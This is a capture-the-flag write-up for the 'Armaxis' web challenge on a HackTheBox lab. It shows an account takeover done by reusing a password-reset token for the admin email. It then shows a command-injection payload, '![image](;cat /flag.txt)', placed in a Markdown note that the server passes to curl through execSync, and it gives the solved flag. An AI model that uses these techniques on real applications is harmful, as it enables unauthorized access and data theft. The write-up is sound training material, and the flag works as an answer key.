 # CTF Writeup: Armaxis Web Application Exploitation

## Introduction

In this writeup, we will go through the steps of exploiting a web application vulnerability in Armaxis. The objective is to gain unauthorized access to the system and retrieve the flag. The task involved manipulating an email token and exploiting a Markdown rendering function that allowed command injection.

### Step 1: Initial Recon

The challenge provided us with two endpoints:

- **Login Page**: `83.136.254.158:59440`
- **Email Server**: `http://83.136.254.158:59440/`

We began by analyzing these endpoints to understand the web application’s structure and functionality.

### Step 2: Discovering Admin Credentials in `database.js`

In the application’s JavaScript files, specifically `database.js`, we found the logic for seeding the admin account:

```javascript
const userCount = await get(`SELECT COUNT(*) as count FROM users`);
if (userCount.count === 0) {
  const insertUser = db.prepare(
    `INSERT INTO users (email, password, role) VALUES (?, ?, ?)`
  );
  const runInsertUser = promisify(insertUser.run.bind(insertUser));

  await runInsertUser(
    "admin@armaxis.htb",
    `${crypto.randomBytes(69).toString("hex")}`,
    "admin",
  );
  insertUser.finalize();
  console.log("Seeded initial users.");
}
```

While the password is dynamically generated and not easily accessible, this piece of information confirmed the existence of the admin account (`admin@armaxis.htb`).

### Step 3: Registering a New User

I registered a new user with the email `test@email.htb`, as this was the only available option from the email server. This email was not under my control, and I could not change it, but I proceeded to test the functionality of the web application.
<p align='center'>
  <img src='img/1.png' alt="HTB">
</p>

### Step 4: Changing Password via Email Token

I attempted to change the password for the account. The system sent me a token via email to authorize the password change. The request format for changing the password was:

<p align='center'>
  <img src='img/2.png' alt="HTB">
</p>
<p align='center'>
  <img src='img/6.png' alt="HTB">
</p>



```json
{
  "token": "f7a6d595a8d73772d9ac8592eb5dcb2e",
  "newPassword": "1234",
  "email": "test@email.htb"
}
```

Using Burp Suite, I modified the request to target the admin account:

```json
{
  "token": "f7a6d595a8d73772d9ac8592eb5dcb2e",
  "newPassword": "1234",
  "email": "admin@armaxis.htb"
}
```

This successfully changed the admin password, granting me access to the admin account.

### Step 5: Weapon Dispatch Page

After gaining access to the admin account, I explored the application and discovered a page that allows dispatching weapons. The page requires the following parameters:

- Weapon Name
- Price
- User Email
- Note

![alt text](img/3.png)
### Step 6: Exploiting Markdown to Inject Commands

I noticed that the application used Markdown for handling content, specifically in the `markdown.js` file. The `parseMarkdown` function had the following code:

```javascript
function parseMarkdown(content) {
  if (!content) return '';
  return md.render(
    content.replace(/\!\[.*?\]\((.*?)\)/g, (match, url) => {
      try {
        const fileContent = execSync(`curl -s ${url}`);
        const base64Content = Buffer.from(fileContent).toString('base64');
        return `<img src="data:image/*;base64,${base64Content}" alt="Embedded Image">`;
      } catch (err) {
        console.error(`Error fetching image from URL ${url}:`, err.message);
        return `<p>Error loading image: ${url}</p>`;
      }
    })
  );
}
```

The `parseMarkdown` function is responsible for converting URLs within the Markdown content into embedded images. If the URL points to a file, it fetches the content using `curl` and embeds it as a base64-encoded image. 

This feature could be exploited by injecting a command into the URL. I crafted the following payload to inject the `cat /flag.txt` command into the `note` field:

```json
{
  "name": "test",
  "price": 123,
  "note": "![image](;cat /flag.txt)",
  "dispatched_to": "admin@armaxis.htb"
}
```

This was submitted through the weapon dispatch page.
<p align='center'>
  <img src='img/4.png' alt="HTB">
</p>

### Step 7: Retrieving the Flag

After dispatching the weapon, I inspected the page’s source code, where I found the following base64-encoded string in the `img` tag:

```html
<img src="data:image/*;base64,SFRCe2wwMGswdXRfZjByX200cmtkMHduX0xGMV8xbl93MWxkIV83N2RjOGIxMzM2ZjFiYWFlOWVkYTJmNDAyMzcwY2EzMH0=" alt="Embedded Image">
```
![alt text](img/5.png)

Decoding the base64 string revealed the flag:

```
HTB{l00k0ut_f0r_m4rkd0wn_LF1_1n_w1ld!_77dc8b1336f1baae9eda2f402370ca30}
```

### Conclusion

Through email token manipulation and exploiting a Markdown parsing vulnerability, I was able to gain access to the admin account and retrieve the flag.

**Flag**: `HTB{l00k0ut_f0r_m4rkd0wn_LF1_1n_w1ld!_77dc8b1336f1baae9eda2f402370ca30}`
